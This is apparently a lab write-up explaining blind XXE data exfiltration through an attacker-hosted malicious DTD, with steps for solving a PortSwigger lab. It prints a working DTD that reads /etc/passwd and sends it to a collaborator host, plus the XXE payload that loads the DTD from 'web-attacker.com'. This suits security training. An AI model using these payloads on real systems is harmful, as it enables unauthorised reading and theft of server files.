 - What an attacker really wants to exfiltrate sensitive data. This can be achieved via a blind XXE vulnerability, But the attacker need to control over a malicious DTD on their own system. They use this malicious DTD with a vulnerability (blind XXE) to ask a server to do something. The server unknowingly fetches and uses the malicious DTD, letting the attacker steal sensitive data.

**An example of a malicious DTD to exfiltrate the contents of the `/etc/passwd` file is as follows:**
```python
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://collaborator_domain/?x=%file;'>"> 
%eval; 
%exfiltrate;
```
**This DTD carries out the following steps:**
1. **Defining an XML Parameter Entity "file":**
    
    - The code creates an XML parameter entity called "file."
    - This entity is like a container that can hold data.
    - It's set to grab the content of the sensitive file "/etc/passwd" on the system.
2. **Defining an XML Parameter Entity "eval" with "exfiltrate":**
    
    - Another XML parameter entity called "eval" is created.
    - Inside "eval," a dynamic declaration of a new XML parameter entity called "exfiltrate" is set up.
    - The purpose of "exfiltrate" is to send data to the attacker's web server.
    - The content of the "file" entity is embedded in the URL query string of an HTTP request to the attacker's server.
3. **Using the "eval" and "exfiltrate" Entities:**
    
    - The "%eval;" part triggers the dynamic declaration of the "exfiltrate" entity.
    - The "%exfiltrate;" part then uses this newly defined "exfiltrate" entity.
    - This results in an HTTP request being made to the attacker's web server, and the content of the "file" entity is included in the URL query.

**The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:**
```python
http://web-attacker.com/malicious.dtd
```

**Finally, the attacker must submit the following XXE payload to the vulnerable application:**
```python
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM 
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```
- This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD.
- This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline.
- The steps defined within the malicious DTD are then executed, and the `/etc/passwd` file is transmitted to the attacker's server.

**Note** - 
1. **Limitations with File Contents and Newlines:**
    
    - This technique might not always work due to the way some data is structured in files.
    - For example, special characters like newline characters in the "/etc/passwd" file can cause problems.
    - Some XML processors validate which characters are allowed in URLs, and newlines might not be allowed.
2. **Using FTP Instead of HTTP:**
    - In cases where certain characters are restricted in URLs, the technique can fail.
    - To overcome this, attackers might switch from using HTTP to FTP (a different protocol) for sending data.
3. **Alternative Targets for Data Exfiltration:**
    - Sometimes, exfiltrating data with newline characters isn't possible.
    - In such cases, attackers might focus on different files like "/etc/hostname" to steal data

## Steps to solve lab
### Desc - Exploiting blind XXE to exfiltrate data using a malicious external DTD
**Our end goal** - To solve the lab, exfiltrate the contents of the `/etc/hostname` file.

1. First save your `.dtd` file in your server and grab the file URL. For lab, navigate to exploit server(as it is provided by portswigger) and add below contents as described below:
![[XXE14.png]]

2. Now, We previously discussed that if this file contains any characters like newline character then this technique might not work to the way some data is structured in files. In such cases, attackers might focus on different files like "/etc/hostname" to steal data.
![[XXE15.png]]

3. Now, send the `POST /product/stock` request to the Burp "Repeater". 
![[XXE16.png]]

4. Now, add the exploit server file url as the value to the exter entity as described below:
![[XXE17.png]]

5. Now, after sending this request click on "Poll Now" in the "Collaborator" tab and grab the hostname of the target machine.
![[XXE18.png]]
Submit this as a solution.
